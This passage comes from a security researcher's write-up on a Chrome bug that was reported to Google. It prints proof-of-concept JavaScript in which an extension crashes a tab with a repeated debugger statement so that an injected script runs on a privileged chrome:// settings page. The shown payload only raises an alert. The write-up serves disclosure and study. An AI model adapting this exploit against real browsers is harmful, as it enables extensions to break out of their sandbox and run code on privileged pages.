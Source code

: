 ```js
  }

  //we're still on the original page, so reload the extension frame to retry
  else {
    location.reload();
  }
}

main();
```

And with that, I was ready to write the bug report. I finalized the script, wrote an explanation of the bug, tested it on multiple operating systems, and sent it in to Google. 

At this point however, there was still a glaring problem: The race condition with `.inspectedWindow.reload()` was not very reliable. I managed to tweak it so that it worked about 70% of the time, but that still wasn't enough. While the fact that it worked at all definitely made it a serious vulnerability regardless, the unreliability would have reduced the severity by quite a bit. So then I got to work trying to find a better way.

## A Familiar Approach
Remember how I mentioned that in David Erceg's bug report, he utilized the fact that debugger requests persist after the tab crashes? I wondered if this exact method worked for `inspectedWindow.reload()` too, so I tested it. I also messed with the `debugger` statement, and it appeared that triggering the debugger twice in a row caused the tab to crash.

So I got to work writing a new POC:
```js
let tab_id = chrome.devtools.inspectedWindow.tabId;

//function which injects the content script into the inspected page
function inject_script() {
  chrome.devtools.inspectedWindow.reload({"injectedScript": `
    //check the origin, so that the debugger is triggered instead if we are not on a chrome page
    if (!origin.startsWith("chrome://")) {
      debugger;
      return;
    }

    alert("hello from chrome.devtools.inspectedWindow.reload");`
  });
}

function sleep(ms) {
  return new Promise((resolve) => {setTimeout(resolve, ms)})
}

async function main() {
  //we have to reset the tab's origin here so that we don't crash our own extension process
  //this navigates to example.org which changes the tab's origin
  await chrome.tabs.update(tab_id, {url: "https://example.org/"});
  await sleep(500);
  //navigate to about:blank from within the example.org page which keeps the same origin
  chrome.devtools.inspectedWindow.reload({"injectedScript": `
      location.href = "about:blank";
    ` 
  })
  await sleep(500);

  inject_script(); //pause the current tab
  inject_script(); //calling this again crashes the tab and queues up our javascript
  await sleep(500);
  chrome.tabs.update(tab_id, {url: "chrome://settings"});
}
```
